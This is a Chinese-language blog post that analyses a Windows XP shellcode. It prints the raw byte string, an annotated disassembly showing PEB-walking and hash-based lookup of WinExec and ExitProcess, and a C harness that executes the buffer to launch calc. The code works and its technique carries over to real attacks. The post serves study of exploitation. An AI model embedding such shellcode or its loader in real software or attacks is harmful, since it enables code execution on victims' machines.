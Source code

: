 ```yaml
---
layout: mypost
title: 一段shellcode的分析调试解释API地址的动态定位
categories: [PWN]
---
```




## 一段shellcode

今天的主角是一段shellcode代码

```c
char evil[] = "\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e"
"\x08\x8b\x36\x8b\x5d\x3c\x8b\x5c\x1d\x78\x85\xdb\x74\xf0\x01\xeb"
"\x8b\x4b\x18\x67\xe3\xe8\x8b\x7b\x20\x01\xef\x8b\x7c\x8f\xfc\x01"
"\xef\x31\xc0\x99\x02\x17\xc1\xca\x04\xae\x75\xf8\x3b\x54\x24\x04"
"\xe0\xe4\x75\xca\x8b\x53\x24\x01\xea\x0f\xb7\x14\x4a\x8b\x7b\x1c"
"\x01\xef\x03\x2c\x97\xc3\x68\xe7\xc4\xcc\x69\xe8\xa2\xff\xff\xff"
"\x50\x68\x63\x61\x6c\x63\x8b\xd4\x40\x50\x52\xff\xd5\x68\x77\xa6"
"\x60\x2a\xe8\x8b\xff\xff\xff\x50\xff\xd5";
```

该shellcode的作用是调用系统中winexec函数，使之执行**WinExec("calc",1)**从而弹出计算器。





## 运行环境

操作系统：Windows XP SP3

调试工具：vc 6.0, ollyice



## shellcode原理

实际中使用的shellcode 为了能在不同的主机环境上正常运行，必须还要能动态地获得自身所需的 API 函数地址。 

Windows 的 API 是通过动态链接库中的导出函数来实现的。Win_32 平台下的 shellcode 广泛使用的方法是通过从进程环境块中找到动态链接库的导出表，并搜索出所需的 API 地址，然后逐一调用。

所有 win_32 程序都会加载 ntdll.dll 和 kernel32.dll 这两个基础的动态链接库。如果想要 在 win_32 平台下定位 kernel32.dll 中的 API 地址，可以采用如下方法：

![1571474241042](1571474241042.png)

1. 首先通过段选择字 FS 在内存中找到当前的线程环境块 TEB。 
2. 线程环境块偏移位置为 0x30 的地方存放着指向进程环境块 PEB 的指针。 
3. 进程环境块中偏移位置为 0x0C 的地方存放着指向 PEB_LDR_DATA 结构体的指针， 其中，存放着已经被进程装载的动态链接库的信息。 
4. PEB_LDR_DATA 结构体偏移位置为 0x1C 的地方存放着指向模块初始化链表的头指针 InInitializationOrderModuleList。 
5. 模块初始化链表 InInitializationOrderModuleList 中按顺序存放着 PE 装入运行时初始化模块的信息，第一个链表结点是 ntdll.dll，第二个链表结点就是 kernel32.dll。 
6. 找到属于 kernel32.dll 的结点后，在其基础上再偏移 0x08 就是 kernel32.dll 在内存中的 加载基地址。 
7. 从 kernel32.dll 的加载基址算起，偏移 0x3C 的地方就是其 PE 头。 
8. PE 头偏移 0x78 的地方存放着指向函数导出表的指针。 
9. 至此，我们可以按如下方式在函数导出表中算出所需函数的入口地址
   1. 导出表偏移0x1C处的指针指向存储导出函数偏移地址（RVA）的列表
   2. 导出表偏移0x20处的指针指向存储导出函数名的列表
   3. 函数的RVA地址和名字按照顺序存放在上述两个列表中，我们可以在名称列表中定位到所需的函数是第几个，然后在地址列表中找到对应的RVA
   4. 获得RVA后，再加上前边已经得到的动态链接库的基地址，就能算出API此时在内存中的绝对地址





### shellcode对应的汇编代码

```c
004273B0 > /EB 54           jmp     short 00427406

/*该函数查找winexec函数地址并赋值给ebp*/    
004273B2   |31F6            xor     esi, esi  //esi清零
004273B4   |64:8B76 30      mov     esi, dword ptr fs:[esi+30]  //esi值为指向PEB的指针
004273B8   |8B76 0C         mov     esi, dword ptr [esi+C]  //esi值为指向 PEB_LDR_DATA 结构体的指针
004273BB   |8B76 1C         mov     esi, dword ptr [esi+1C]  //esi值为指向模块初始化链表的指针 InInitializationOrderModuleList

004273BE   |8B6E 08         mov     ebp, dword ptr [esi+8]  //ebp值为模块初始化链表当前结点的基地址
004273C1   |8B36            mov     esi, dword ptr [esi]  //esi值为指向模块初始化链表下一个结点的指针
004273C3   |8B5D 3C         mov     ebx, dword ptr [ebp+3C]  //ebx值为指向当前节点的pe头的指针
004273C6   |8B5C1D 78       mov     ebx, dword ptr [ebp+ebx+78]  //ebx值为当前结点的pe头的导出表的相对地址
004273CA   |85DB            test    ebx, ebx  //若遍历完当前结点的导出表
004273CC  ^|74 F0           je      short 004273BE  //则跳转到下一结点遍历其导出表
004273CE   |01EB            add     ebx, ebp  //ebx加上ebp的基址后得到可直接访问的绝对地址
004273D0   |8B4B 18         mov     ecx, dword ptr [ebx+18]  //偏移18，得到导出表中的函数总数ecx
004273D3   |67:E3 E8        jcxz    short 004273BE  //ecx减为0则跳转，去下一个结点的导出表

    
004273D6   |8B7B 20         mov     edi, dword ptr [ebx+20]  //导出表偏移20处是函数名称列表
004273D9   |01EF            add     edi, ebp  //edi加上ebp的基址后得到可直接访问的绝对地址
004273DB   |8B7C8F FC       mov     edi, dword ptr [edi+ecx*4-4]  //把导出表最后一个函数名地址赋给edi
004273DF   |01EF            add     edi, ebp  //edi加上ebp的基址后得到可直接访问的绝对地址
004273E1   |31C0            xor     eax, eax  //把eax置零
004273E3   |99              cdq  //先把EDX的所有位都设成EAX最高位的值（0）,再把edx扩展为eax的高位，也就是说变为64位。
    
/*此处是对edi所指函数名做hash并与事先入栈的hash（[esp+4]）比较*/
004273E4   |0217            add     dl, byte ptr [edi]  //dl处加上edi所指的一个字节
004273E6   |C1CA 04         ror     edx, 4  //edx循环右移4位
004273E9   |AE              scas    byte ptr es:[edi]  // 将al中的值（0）与es:edi所指向的目的地址处的一个字节进行比较，如果相等，ZF=1（判断字符串是否结尾）
004273EA  ^|75 F8           jnz     short 004273E4  //zf=0则跳转
004273EC   |3B5424 04       cmp     edx, dword ptr [esp+4]  //比较edx和预先入栈的函数名的hash
004273F0  ^|E0 E4           loopdne short 004273D6  //CX-1，若CX!=0且ZX=0则跳转，查询上一个函数名的hash
004273F2  ^|75 CA           jnz     short 004273BE  //zx=0则跳转到下一个结点，遍历其导出表

004273F4   |8B53 24         mov     edx, dword ptr [ebx+24] //结点导出表偏移24为函数序号表
004273F7   |01EA            add     edx, ebp  //edx加上ebp的基址后得到可直接访问的绝对地址
004273F9   |0FB7144A        movzx   edx, word ptr [edx+ecx*2]  //得到函数在序号表中的序号
004273FD   |8B7B 1C         mov     edi, dword ptr [ebx+1C]  //导出表偏移1c指向函数地址表
00427400   |01EF            add     edi, ebp  //edi加上ebp的基址后得到可直接访问的绝对地址
00427402   |032C97          add     ebp, dword ptr [edi+edx*4]  //根据序号得到相对地址，加上基址得到函数的绝对地址
00427405   |C3              retn


/*调用kernel.winexec("calc",1)弹出计算器*/
00427406   \68 E7C4CC69     push    69CCC4E7  //待查找的函数名hash入栈
0042740B    E8 A2FFFFFF     call    004273B2  //调用查找函数查找winexec函数并赋值给ebp
00427410    50              push    eax  
00427411    68 63616C63     push    636C6163  //"calc"
00427416    8BD4            mov     edx, esp  //把栈顶（calc）赋值给edx
00427418    40              inc     eax  //eax加一，为1
00427419    50              push    eax  //参数1入栈
0042741A    52              push    edx  //参数“calc”入栈
0042741B    FFD5            call    ebp  //调用kernel.winexec("calc",1)弹出计算器


/*收尾阶段，完美退出*/
0042741D    68 77A6602A     push    2A60A677  //ExitProcess的hash
00427422    E8 8BFFFFFF     call    004273B2  //找到ExitProcess函数的地址并赋值给ebp
00427427    50              push    eax  //参数0入栈
00427428    FFD5            call    ebp  //ExitProcess(0) 结束调用的进程及其所有的线程

```

### shellcode对应的执行流程

![LocateAPI](stackoverflow_1_locateAPI.png)







## 编写程序调试shellcode



```c
#include<stdio.h>

char evil[] = "\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e"
"\x08\x8b\x36\x8b\x5d\x3c\x8b\x5c\x1d\x78\x85\xdb\x74\xf0\x01\xeb"
"\x8b\x4b\x18\x67\xe3\xe8\x8b\x7b\x20\x01\xef\x8b\x7c\x8f\xfc\x01"
"\xef\x31\xc0\x99\x02\x17\xc1\xca\x04\xae\x75\xf8\x3b\x54\x24\x04"
"\xe0\xe4\x75\xca\x8b\x53\x24\x01\xea\x0f\xb7\x14\x4a\x8b\x7b\x1c"
"\x01\xef\x03\x2c\x97\xc3\x68\xe7\xc4\xcc\x69\xe8\xa2\xff\xff\xff"
"\x50\x68\x63\x61\x6c\x63\x8b\xd4\x40\x50\x52\xff\xd5\x68\x77\xa6"
"\x60\x2a\xe8\x8b\xff\xff\xff\x50\xff\xd5";
 
int main(int argc, char **argv)
{
int (*shellcode)();
shellcode = (int (*)()) evil;
(int)(*shellcode)();
}
```

保存代码为sc1.c并拖入vc6.0,编译，运行，弹出计算器。为了使代码更加简洁，我们进入工程-->设置-->C/C++-->工程选项 中删除 /GZ参数。

![1571503838362](1571503838362.png)



把debug模式下的sc1.exe文件拖入ollyice中，定位到main函数：

![1571504269498](1571504269498.png)



进入evil函数：

![1571504353741](1571504353741.png)

在调用winexec函数处下断点，按F9运行至此处：

![1571504522980](1571504522980.png)

![1571504553783](1571504553783.png)

![1571504590506](1571504590506.png)

可以看到将要执行winexec("calc",1)调出计算器窗口。F8单步执行成功调出计算器窗口

![1571504829241](1571504829241.png)



收尾阶段。此时鼠标手动关闭计算器窗口，在CALL EBP 处按F2下断点，F9直接运行至此处

![1571504965489](1571504965489.png)

![1571504987485](1571504987485.png)

![1571504999175](1571504999175.png)

可以看出将要执行WinExec(0)函数用于退出，F8单步运行，系统自动关闭cmd窗口并终止进程。

![1571505109632](1571505109632.png)



